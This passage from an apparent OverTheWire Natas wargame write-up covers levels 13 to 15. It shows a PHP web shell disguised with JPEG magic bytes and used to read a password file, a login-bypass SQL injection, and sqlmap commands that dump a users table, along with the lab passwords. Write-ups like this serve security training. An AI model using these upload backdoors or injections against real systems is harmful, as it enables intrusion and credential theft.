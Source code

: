 Inject the same backdoor as in the previous challenge [http://natas13.natas.labs.overthewire.org/upload/rh8gw09927.php?backdoor=cat%20/etc/natas_webpass/natas14](http://natas13.natas.labs.overthewire.org/upload/rh8gw09927.php?backdoor=cat%20/etc/natas_webpass/natas14)

`Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1`

![](/assets/images/2018/12/overthewire-natas13-solution.jpg)

> You can download the final payload here [overthewire-natas13-pixel-with-backdoor.jpg](/assets/images/2018/12/overthewire-natas13-pixel-with-backdoor.jpg)

> Also, we can completely forge the payload without any software. The idea is to add the JPG magic numbers `ff d8 ff` in hexadecimal format
```bash
$ echo -n -e "\xff\xd8\xff<?php system(\$_GET['backdoor']); ?>" > payload.jpg
$ file payload.jpg
payload.jpg: JPEG image data
```
It takes 38 octets and works just as fine!!
It also proves that `file` and `exif_imagetype` are based on magic numbers, which may be completely misleading!!

### Level 14 - SQL injection
```
http://natas1.natas.labs.overthewire.org/ natas Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```
In the PHP code we have
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=...";
```

If we inject `" or 1=1 #` in the username field, we send this final SQL code:

```sql
SELECT * from users where username="" or 1=1 # and password=...
-- Equivalent to
SELECT * from users
```

`Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

### Level 15 - SQL enumeration with `sqlmap`
```
http://natas15.natas.labs.overthewire.org/ natas15 AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

```bash
$ ./sqlmap.py --auth-cred="natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J" --auth-type=BASIC -u 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16' --level 3 --dbms=mysql -p username --dbs
available databases [2]:
[*] information_schema
[*] natas15
$ ./sqlmap.py --auth-cred="natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J" --auth-type=BASIC -u 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16' --level 3 --dbms=mysql -p username -D natas15 -T users --dump
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
```